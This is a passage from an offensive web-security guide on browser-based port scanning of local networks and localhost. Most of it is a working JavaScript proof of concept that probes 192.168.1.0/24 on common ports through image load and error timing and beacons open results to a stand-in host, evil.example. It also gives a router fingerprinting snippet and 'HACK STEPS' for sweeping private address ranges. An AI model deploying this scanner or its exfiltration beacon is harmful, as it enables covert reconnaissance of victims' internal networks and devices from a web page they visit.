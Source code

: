 ## 4) Browser-Based Port Scanning (LAN & localhost)

Even in 2025, the browser can still **signal reachability** to internal IPs via element load/error and timeouts. You won’t read responses, but you can discover **open ports** and **device types**.

### PoC: IMG scanner for 192.168.1.0/24 on common ports

```html
<script>
const hosts = Array.from({length:254}, (_,i)=>`192.168.1.${i+1}`);
const ports = [80, 443, 8000, 8080, 8443, 5000];
const results = [];

function probe(host, port) {
  return new Promise(resolve => {
    const img = new Image();
    const t = setTimeout(() => { cleanup(); resolve({host,port,open:false,why:'timeout'}); }, 1200);
    function cleanup(){ img.onload = img.onerror = null; clearTimeout(t); }
    img.onload  = () => { cleanup(); resolve({host,port,open:true, why:'load'}); };
    img.onerror = () => { cleanup(); resolve({host,port,open:true, why:'error'}); };
    img.src = `http://${host}:${port}/favicon.ico#${Math.random()}`;
  });
}

(async ()=>{
  for (const h of hosts) {
    for (const p of ports) {
      const r = await probe(h,p);
      results.push(r);
      if (r.open) navigator.sendBeacon('https://evil.example/scan', JSON.stringify(r));
    }
  }
})();
</script>
```

**Why `onerror` can still mean “open”:** If anything answers (even non-image content), the network path is alive → browser fires `onerror` quickly instead of timing out.

### Fingerprinting devices

Probe for **well-known resources**:

```html
<img src="http://192.168.1.1/hm_icon.gif"
     onload="report('netgear')"
     onerror="/* try other fingerprints */">
```

### HACK STEPS

1. Probe internal ranges (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`) and `127.0.0.1`.
2. Record **fast error vs timeout** to separate closed ports from open services.
3. Fingerprint with **device-specific resource URLs**.
